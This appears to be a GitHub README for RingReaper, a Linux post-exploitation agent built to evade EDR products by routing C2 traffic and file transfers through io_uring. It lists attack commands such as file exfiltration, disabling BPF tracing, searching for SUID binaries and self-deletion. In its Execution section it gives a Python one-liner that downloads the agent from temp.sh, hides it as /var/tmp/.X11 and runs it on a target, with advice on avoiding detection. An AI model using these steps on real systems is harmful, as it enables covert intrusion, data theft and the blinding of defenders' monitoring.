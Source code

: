 # RingReaper

**RingReaper** is a simple post-exploitation agent for Linux designed for those who need to operate stealthily, minimizing the chances of being detected by EDR solutions. The idea behind this project was to leverage **io_uring**, the new asynchronous I/O interface in the Linux kernel, specifically to avoid traditional system calls that most EDRs tend to monitor or even hook.

In practice, RingReaper replaces calls such as `read`, `write`, `recv`, `send`, `connect`, among others, with asynchronous I/O operations (`io_uring_prep_*`), reducing exposure to hooks and event tracing typically collected in a standardized way by security products.

> **NOTE:** Some functions within RingReaper still rely on traditional calls, such as directory reading (`opendir`, `readdir`) or symbolic link resolution (`readlink`), because io_uring **does not yet fully support** these types of operations natively. Even so, during my tests, these calls did not trigger alerts on the tested EDRs, precisely because they fall outside the monitored network I/O paths.

In summary, RingReaper was built to **avoid traditional calls as much as possible**, and even in cases where it had to use them, it demonstrated excellent evasion capabilities, with no alerts or detections from common security agents.

See the full and detailed article at:

https://matheuzsecurity.github.io/hacking/evading-linux-edrs-with-io-uring/

Author: https://www.linkedin.com/in/mathsalves/

Rootkit Researchers

- https://discord.gg/66N5ZQppU7

## Command Reference

| Command       | Description                                              | Backend              |
|---------------|----------------------------------------------------------|----------------------|
| `get`         | Look files from the target                           | 100% io_uring        |
| `put`         | Upload files (uses `recv` on the agent side)             | 100% io_uring        |
| `killbpf`     | Disable tracing, remove `/sys/fs/bpf` files and kill processes using `bpf-map` | traditional calls + io_uring |
| `terminal`    | Get a PTS terminal                                       | traditional calls + io_uring        |
| `users`       | List logged-in users by reading `utmp`                   | 100% io_uring        |
| `ss` / `netstat` | List TCP connections from `/proc/net/tcp`            | 100% io_uring        |
| `privesc`     | Search for SUID binaries using `statx`                   | 100% io_uring        |
| `ps`          | List processes (uses `opendir`, `readdir`)               | traditional calls + io_uring   |
| `kick`        | Kill `pts` sessions (uses `opendir`, `readdir`, `kill`, `readlink`) | traditional calls + io_uring |
| `me`          | Show PID/TTY (`getpid`, `ttyname`)                       | traditional calls + io_uring   |
| `selfdestruct`| Delete the current binary (uses `readlink`)              | traditional calls + io_uring   |
| `exit`        | Terminate connection and exit                            | 100% io_uring        |
| `help`        | Display help                                             | 100% io_uring        |

In RingReaper, all data traffic, including control commands, uploads, and downloads, must pass through io_uring. This also ensures that the most sensitive operations remain off the radar of hooks and EDR monitoring based on traditional calls.

## About Evasion

RingReaper was designed from the ground up to bypass EDR monitoring. Many security solutions base their detection triggers on intercepting classic syscalls (`read`, `recv`, `send`, `connect`) at the kernel level. Since `io_uring` is relatively new and less integrated into the telemetry pipeline of these products, it often goes unnoticed by most agents, allowing for C2 sessions and data exfiltration without triggering alerts.

Even functions that still rely on older syscalls (such as directory reading) remained discreet enough not to raise alarms.

## Requirements

- Linux kernel 5.1 or higher  
- `liburing` library  
- A compatible C compiler (tested with GCC)  

## Env

Tested **ONLY** on the following kernel versions below;

- 6.8.0-60-generic
- 6.12.25-amd64

## Compilation

```
sudo apt install liburing-dev -y
gcc agent.c -o agent -luring -O2 -s -static
```

## Execution

In testing, I noticed that EDR detected the compilation of `agent.c` by monitoring GCC usage in real time (it's better not to use wget/curl). To bypass this, I compiled the agent statically on my machine, sent the finished binary via `temp.sh` and used Python on the target to download and execute it. This technique worked without warning.

Server (Attack box) : 

- `curl -F "file=@agent" https://temp.sh/upload`
- `python3 server.py --ip IP --port 443` 

Agent (Target machine) :

- `python3 -c "import urllib.request,os,subprocess; u=urllib.request.Request('http://temp.sh/xxxx/stealth_agent',method='POST'); d='/var/tmp/.X11'; open(d,'wb').write(urllib.request.urlopen(u).read()); os.chmod(d,0o755); subprocess.Popen([d]);"`

## Upgrades

**Version 2.0**:
* Support for multiple threaded connections.
* Command history (using the "up" and "down" keys).
* "Clear" command to avoid cluttering the screen.

## Contribution

Feel free to make pull requests and contribute to the project.
Any errors with RingReaper, please create an issue and report it to us.

## Disclaimer

This code was developed solely for educational purposes, research, and controlled demonstrations of evasion techniques. Any use outside authorized environments, or for malicious purposes, is strictly prohibited and entirely the responsibility of the user. Unauthorized or illegal use may violate local, national, or international laws.
